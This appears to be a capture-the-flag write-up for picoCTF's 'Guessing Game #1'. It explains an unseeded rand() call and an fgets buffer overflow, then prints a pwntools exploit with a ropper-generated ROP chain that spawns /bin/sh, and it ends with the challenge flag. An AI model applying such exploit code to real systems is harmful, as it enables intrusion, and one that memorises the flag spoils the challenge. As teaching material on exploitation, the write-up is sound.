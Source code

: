 # Guessing Game #1

## Introduction

Guessing Game #1 is a 250 point binary-exploitation challenge from picoCTF. The
description states:

> I made a simple game to show off my programming skills. See if you can beat
it!

We get the executable, the Makefile, and the source.

## Information Gathering

### Hint #1

> Tools can be helpful, but you may need to look around for yourself.

Pretty ambiguous I think. I am not sure what to make of this.

### Hint #2

> Remember, in CTF problems, if something seems weird it probably means
something...

Also pretty ambiguous, but I guess we should dive in!

### Vulnerability Mitigations

```shell
$ checksec vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found #(this is a lie?)
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The Makefile suggests no stack canary given the `-fno-stack-protector` flag. We
confirm it is not PIE. It's also statically linked which is neat and give us an
opportunity to do relative jumps easier.

Using `objdump --syms` I didn't see symbols for `system` or `exec*`, so I am
guessing that either the remote server is going to read the flag for us or we
need some shellcode. Current thoughts anyways. We need to check the source
first.

### Source

`main` is essentially the following loop:

```c
while (1) {
res = do_stuff();
if (res) {
    win();
}
```

`do_stuff` gets a random number using `rand`. Note that it is never seeded
using `srand`. `man 3 rand` states that this means it will always have a
default seed of 1:

> If no seed value is provided, the rand() function is automatically seeded
with a value of 1.

So our random number is not so random; we will get the same number each time.
We should be able to figure it out with GDB.


```c
int do_stuff() {
	long ans = get_random();
	ans = increment(ans);
	int res = 0;

	printf("What number would you like to guess?\n");
	char guess[BUFSIZE];
	fgets(guess, BUFSIZE, stdin);

	long g = atol(guess);
	if (!g) {
		printf("That's not a valid number!\n");
	} else {
		if (g == ans) {
			printf("Congrats! You win! Your prize is this print
statement!\n\n");
			res = 1;
		} else {
			printf("Nope!\n\n");
		}
	}
	return res;
}
```

Continuing on, we see that if we 'win' we get to the following function. And we
can spot the bug. The developer should have limited the call to `fgets` to
BUFSIZE (which is a macro for 100), but it is instead 360. So if we get to the
`win` function we should be able to overflow the buffer and overrun the return
address. Cool, lets do that.

```c
void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}
```

## Solving

If we set a breakpoint on increment (we have symbols, thank you developers!) we
can inspect what the expected number is that we need to guess, 0x54 or 84.

```gdb
break increment
finish
p/d $rax
$1 = 84
```

We can do this with pwntools to automate finding this value, which makes it
more repeatable in the future. So let's do that in our `./solve.py` script. For
whatever reason, when I set the breakpoint on the symbol 'increment', it
resolved the wrong address even though 'info sym increment' showed the correct
address. I'm not sure what was going on, so I just set the address to the
return from `increment` in `main`.

```python
INCREMENT_ADDRESS = 0x00400bbc
with gdb.debug(exe.path, gdbscript=GDB_COMMAND, api=True) as vuln:
        # Add our breakpoint (we could do this in the gdbscript, but I like the
		# API).
        vuln.gdb.Breakpoint('* ' + str(INCREMENT_ADDRESS))

        vuln.gdb.continue_and_wait()

        # Get the selected frame, which will allow us to extract information
		# regarding things like the registers, stack, etc.
        frame = vuln.gdb.selected_frame()

        # Get the return value of increment. This should be the same each time
		# since the developer did not seed rand.
        rax = frame.read_register('rax')

        # Cast as an integer.
        return int(rax.cast(vuln.gdb.lookup_type('long')))
```

Knowing the answer to the first question, we then need to overflow the buffer
and control the return address of the function. `checksec` is incorrect in
reporting a stack canary, as we don't see any when we decompile it. Using a
cyclic pattern and a core dump we find the offset on the stack to the return
address:

```python
# Generate a cyclic pattern so that we can auto-find the offset.
payload = cyclic(NUM_CYCLIC_BYTES)

# Send the cyclic pattern
proc.sendlineafter(b'Congrats! You win! Your prize is this print statement!\n',
payload)
proc.wait()

# Get the core dump.
core = proc.corefile

# Find our offset.
offset = cyclic_find(pack(core.fault_addr), n=4)
```

With control of the return address, we now need to ROP around to invoke
`execve` and open up a shell. Fortunately, `ropper` takes care of this for us.
Though note that the output is not in `python3` syntax and you'll have to make
a couple modifications (see included `solve.py`):

```shell
$ ropper --file ./vuln --chain "execve cmd=/bin/sh"

#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 #
f01c7ecf217d3cebdf4f676920f17ebfcb33d5d14d78df8dfffed5c5290e6f62
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
rop += '//bin/sh'
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e0)
rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi],
r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi],
r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e0)
rop += rebase_0(0x0000000000010ca3) # 0x0000000000410ca3: pop rsi; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x000000000004cc26) # 0x000000000044cc26: pop rdx; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x00000000000163f4) # 0x00000000004163f4: pop rax; ret;
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000049e35) # 0x0000000000449e35: syscall; ret;
print rop
```

If we send this to the program (after padding as appropriate with the offset)
then we land a shell.

```python
ropchain = fit ({
	offset: call_execve()
})

io.sendlineafter(b'Name? ', ropchain)
# Get the flag.
io.sendline(b'cat flag.txt')
io.recvline()
io.recvline()
flag = io.recv()
```

We get the flag: `picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_44d502016ea374b8}`

## Future Work

It would be neat to implement `ropper` with `pwntools` so you didn't need to
copy and paste the ropchain. Also update to `python3`.
